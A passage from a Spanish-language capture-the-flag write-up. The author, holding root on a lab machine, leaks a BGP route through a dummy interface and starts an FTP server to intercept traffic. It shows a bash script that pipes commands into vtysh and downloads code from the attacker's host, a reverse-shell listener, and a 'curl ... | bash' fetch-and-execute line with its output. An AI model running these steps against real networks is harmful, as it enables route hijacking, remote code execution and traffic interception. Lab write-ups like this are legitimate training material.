 Básicamente y a pesar de ser root, decidí no intervenir y trabajar con lo que tenia sobre la maquina. El script `restore.sh` se ejecuta cada 10 min cortando cualquier intento de afectar la operación por defecto de la maquina. En los servidores free ya era un infierno ):

# Quickly, a route leak + ftp-server!

Cree un script para realizar la conexión lo mas rápido y eficiente posible:

```bash
#!/bin/bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export SHELL=bash && export TERM=xterm-256color
ip link add dummy1 type dummy
ip addr add 10.120.15.10/32 dev dummy1
ip link set dummy1 up
printf "conf t\nrouter bgp 100\nnetwork 10.120.15.10/32\nexit\nexit\nwr mem\nsh ip bgp\nexit\n" | vtysh
wget -O /dev/shm/utils.py http://10.10.13.170:4001/utils.py && wget -O /dev/shm/ftp_server.py http://10.10.13.170:4001/ftp_server.py
cd /dev/shm/ && python3 ftp_server.py
```

Básicamente:
- Crea una interface virtual dummy
- Configura el router para anunciar como network la interface virtual (route leak)
- Descarga una implementación de un ftp server para python3 y lo ejecuta.

En otra terminal puse el listener del reverse shell para llamar al script de bash `up.sh` desde un web server.

Veamos que ocurrió:

```text
xbytemx@laptop:~$ ncat -lnvp 3001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::3001
Ncat: Listening on 0.0.0.0:3001
Ncat: Connection from 10.10.10.105.
Ncat: Connection from 10.10.10.105:44988.
bash: cannot set terminal process group (7411): Inappropriate ioctl for device
bash: no job control in this shell
root@as100:/dev/shm# curl http://10.10.13.170:4001/up.sh | bash
curl http://10.10.13.170:4001/up.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   474  100   474    0     0    707      0 --:--:-- --:--:-- --:--:--   707
export SHELL=bash && export TERM=xterm-256color
ip link add dummy1 type dummy
ip addr add 10.120.15.10/32 dev dummy1
ip link set dummy1 up
printf "conf t\nrouter bgp 100\nnetwork 10.120.15.10/32\nexit\nexit\nwr mem\nsh ip bgp\nexit\n" | vtysh
wget -O /dev/shm/utils.py http://10.10.13.170:4001/utils.py && wget -O /dev/shm/ftp_server.py http://10.10.13.170:4001/ftp_server.py
cd /dev/shm/ && python3 ftp_server.py
root@as100:/dev/shm# export SHELL=bash && export TERM=xterm-256color
root@as100:/dev/shm# ip link add dummy1 type dummy
RTNETLINK answers: File exists
root@as100:/dev/shm# ip addr add 10.120.15.10/32 dev dummy1
RTNETLINK answers: File exists
root@as100:/dev/shm# ip link set dummy1 up
it\nexit\nwr mem\nsh ip bgp\nexit\n" | vtyshbgp 100\nnetwork 10.120.15.10/32\nex

Hello, this is Quagga (version 0.99.24.1).
Copyright 1996-2005 Kunihiro Ishiguro, et al.

```